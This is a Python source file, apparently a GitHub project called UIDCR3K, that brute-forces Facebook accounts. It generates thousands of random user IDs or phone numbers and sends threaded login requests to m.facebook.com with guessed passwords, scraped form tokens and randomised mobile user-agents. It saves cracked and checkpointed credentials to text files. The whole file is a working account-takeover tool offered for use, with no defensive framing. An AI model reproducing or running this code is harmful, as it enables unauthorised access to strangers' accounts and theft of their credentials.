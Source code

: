 #!/usr/bin/python3
#-*-coding:utf-8-*-

'''
this is an open source program by Mr. Error (Azim-Vau)
give credit before modifying <3 [>_]
'''

P = '\x1b[1;97m'
M = '\x1b[1;31m'
H = '\x1b[1;32m'
K = '\x1b[1;33m'
B = '\x1b[1;34m'
U = '\x1b[1;35m' 
O = '\x1b[1;36m'
N = '\x1b[0m' 
Z = "\033[1;30m"
FM = '\033[0;41m'

import os
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    import bs4
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize bs4 requests futures==2 > /dev/null')
    os.system('python uidcr3k.py')


import requests,json,os,sys,random,datetime,subprocess,time,re,calendar,base64,zlib,string,platform
from bs4 import BeautifulSoup as sop


loop = 0
oks = []
cps = []

def xox(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(0.01)

def banner():
	os.system("clear")
	print("")
	print("%s    ▄▄▄      ▒███████▒ ██▓ ███▄ ▄███▓"%(M))
	print("%s   ▒████▄    ▒ ▒ ▒ ▄▀░▓██▒▓██▒▀█▀ ██▒"%(M))
	print("%s   ▒██  ▀█▄  ░ ▒ ▄▀▒░ ▒██▒▓██    ▓██░"%(M))
	print("%s   ░██▄▄▄▄██   ▄▀▒   ░░██░▒██    ▒██ "%(M))
	print("%s    ▓█   ▓██▒▒███████▒░██░▒██▒   ░██▒"%(M))
	print("%s    ▒▒   ▓▒█░░▒▒ ▓░▒░▒░▓  ░ ▒░   ░  ░"%(Z))
	print("%s     ▒   ▒▒ ░░░▒ ▒ ░ ▒ ▒ ░░  ░      ░"%(Z))
	print("%s     ░   ▒   ░ ░ ░ ░ ░ ▒ ░░      ░   "%(Z))
	print("%s         ░  ░  ░ ░     ░         ░   "%(Z))
	print("%s             ░                       "%(Z))
	print("")
	print("%s╔══════════════════════════════════════════╗"%(Z))
	print("%s║%s  Author   : %s𝙈𝙧. 𝙀𝙧𝙧𝙤𝙧                    %s║"%(Z,B,M,Z))
	print("%s║%s  Github   : https://github.com/Azim-Vau  %s║"%(Z,B,Z))
	print("%s║%s  Telegram : https://t.me/azimvau69       %s║"%(Z,B,Z))
	print("%s║%s  Version  : %s3.0                          %s║"%(Z,B,H,Z))
	print("%s╚══════════════════════════════════════════╝"%(Z))
	print("")
	xox('            %s》%s》%s》%sUIDCR3K%s《%s《%s《'%(M,H,B,H,B,H,M))
	print("")

def linex():
	print("%s════════════════════════════════════════════%s\n"%(Z,N))


def result(OK,cp):
	if len(OK) != 0 or len(cp) != 0:
		print("\n\n\033[94;1m THE PROCESS HAS BEEN COMPLETED")
		print("\033[93;1m TOTAL \033[92;1mOK\033[93;1m/\033[91;1mCP: %s/%s"%(str(len(OK)),str(len(cp))))
		os.sys.exit()
	else:
		print('\n\n [%s!%s] NO RESULT YOUR BAD LOCK :(:('%(H,H));exit()

def azimvau():
	os.system('clear')
	banner()
	print(f' {H}[1] RANDOM NUMBER CRACK')
	print(f' {K}[2] RANDOM UID CRACK')
	print(f' {M}[B] BACK\n')
	opt = input(f'{B} CHOOSE : {H}')
	if opt =='1':
		random_number()
	elif opt =='2':
		random_uid()
	elif opt =='3':
		azimvau()
	else:
		print('\n\033[1;31m CHOOSE A VALID OPTION\033[0;97m')

def random_uid():
	user=[]
	os.system('clear')
	banner()
	for nmbr in range(5000):
		nmp = ''.join(random.choice(string.digits) for _ in range(9))
		user.append("100000"+nmp)
	print(f' {H}EXAMPLE : 123456,1234567,12345678 {N}\n')
	pwx = input(f' {B}PUT PASS : {H}').split(',')
	with ThreadPool(max_workers=30) as zim:
		os.system('clear')
		banner()
		tl = str(len(user))
		xox(f"{K} TOTAL IDS : {K}{tl}")
		xox(f"{H} BRUTE HAS BEEN STARTED {N}")
		xox(f"{B} WAIT AND SEE {H}✘{M}✘ {N}")
		linex()
		for uid in user:
			zim.submit(cracker,uid,pwx,tl)
	result(oks,cps)

def random_number():
	user=[]
	os.system('clear')
	banner()
	print(f"          {FM}PUT A FULL MOBILE NUMBER{N}\n         {FM}OF ANY COUNTRY AS YOU WISH{N}\n")
	print(f" {M}FOR EXAMPLE : {Z}[{H}+880175803XXXX{Z}]\n")
	fkode = input(f'{K} PUT NUMBER : {H}')
	if len(fkode) < 10:
		xox(f'\n{M} ERROR! MAYBE YOU PUT THE WRONG NUMBER ')
		time.sleep(2)
		random_number()
	else:
		pass
	kode = fkode[0:-7]
	for nmbr in range(20000):
		nmp = ''.join(random.choice(string.digits) for _ in range(7))
		user.append(nmp)
	print(f"\n {M}EXAMPLE : {Z}[{H}6,7,8,9,10,11{Z}]\n")
	psl = int(input(f" {B}PASS LENGHT : {H}"))
	with ThreadPool(max_workers=30) as zim:
		os.system('clear')
		banner()
		tl = str(len(user))
		xox(f"{K} TOTAL IDS : {K}{tl}")
		xox(f"{H} BRUTE HAS BEEN STARTED {N}")
		xox(f"{B} WAIT AND SEE {H}✘{M}✘ {N}")
		linex()
		for guru in user:
			uid = kode+guru
			pwx = [uid[-psl:]]
			zim.submit(cracker,uid,pwx,tl)
	result(oks,cps)


def cracker(uid,pwx,tl):
	global loop
	global cps
	global oks
	try:
		for pasw in pwx:
			ses = requests.Session()
			heas = {"Host": "m.facebook.com",
				"dnt": "1","upgrade-insecure-requests": "1",
				"user-agent": str(random.choice([f"Mozilla/5.0 (Linux; Android {str(random.randint(4,9))}; SM-J{str(random.randint(199,599))}F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/{str(random.randint(80,107))}.0.{str(random.randint(1999,4999))}.0 Mobile Safari/537.36"])),
				"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
				"sec-fetch-site": "same-origin",
				"sec-fetch-mode": "cors",
				"sec-fetch-user": "?1",
				"sec-fetch-dest": "empty",
				"accept-encoding": "gzip, deflate",
				"accept-language": "ar-EG,ar;q=0.9,en-US;q=0.8,en;q=0.7",}
			link = ses.get("https://m.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8", headers=heas)
			gett = sop(link.text, "html.parser")
			datax = gett.find("form",{"method":"post"})["action"]
			data = {"lsd": re.search('name="lsd" value="(.*?)"', str(link.text)).group(1),
				"jazoest": re.search('name="jazoest" value="(.*?)"', str(link.text)).group(1),
				"m_ts": re.search('name="m_ts" value="(.*?)"', str(link.text)).group(1),
				"li": re.search('name="li" value="(.*?)"', str(link.text)).group(1),
				"try_number": "0",
				"unrecognized_tries": "0",
				"email": uid,
				"pass": pasw,
				"login": "Masuk",
				"bi_xrwh": "0"}
			cookie = dict(ses.cookies.get_dict())
			head = {"Host": "m.facebook.com",
				"content-length": "2067",
				"cache-control": "private, no-cache, no-store, must-revalidate",
				"origin": "https://m.facebook.com",
				"upgrade-insecure-requests": "1",
				"dnt": "1",
				"content-type": "application/x-www-form-urlencoded",
				"user-agent": str(random.choice([f"Mozilla/5.0 (Linux; Android {str(random.randint(4,9))}; SM-J{str(random.randint(199,599))}F) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/{str(random.randint(80,107))}.0.{str(random.randint(1999,4999))}.0 Mobile Safari/537.36"])),
				"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9",
				"sec-fetch-site": "same-origin",
				"sec-fetch-mode": "cors",
				"sec-fetch-user": "?1",
				"sec-fetch-dest": "empty",
				"referer": "https://m.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8",
				"accept-encoding": "gzip, deflate",
				"accept-language": "ar-EG,ar;q=0.9,en-US;q=0.8,en;q=0.7"}
			xnxx = ses.post(f"https://m.facebook.com{datax}", data=data, cookies=cookie, headers=head, allow_redirects=True)
			fb_cookies=ses.cookies.get_dict().keys()
			if 'c_user' in fb_cookies:
				coki=";".join([key+"="+value for key,value in ses.cookies.get_dict().items()])
				uidx = coki[7:22]
				print('\033[1;32m [AZIM-OK] '+uidx+'-'+uid+'-'+pasw+'\033[0;97m')
				open('OK.txt', 'a').write(uidx+'|'+pasw+'\n')
				oks.append(uidx)
				break
			elif 'checkpoint' in fb_cookies:
				coki=";".join([key+"="+value for key,value in ses.cookies.get_dict().items()])
				uidx = coki[24:39]
				print('\033[1;31m [AZIM-CP] '+uidx+'-'+uid+'-'+pasw+'\033[0;97m')
				open('CP.txt', 'a').write(uidx+'|'+pasw+'\n')
				cps.append(uidx)
				break
			else:
				continue
		loop+=1
		sys.stdout.write(f"\r {Z}[{H}{loop}{P}-{M}{tl}{Z}] {Z}[{H}{len(oks)}{B}-{K}{len(cps)}{Z}] {Z}[{M}{'{:.1%}'.format(loop/int(tl))}{Z}]  \r"),
		sys.stdout.flush()
	except:
		pass




if __name__=='__main__':
	azimvau()

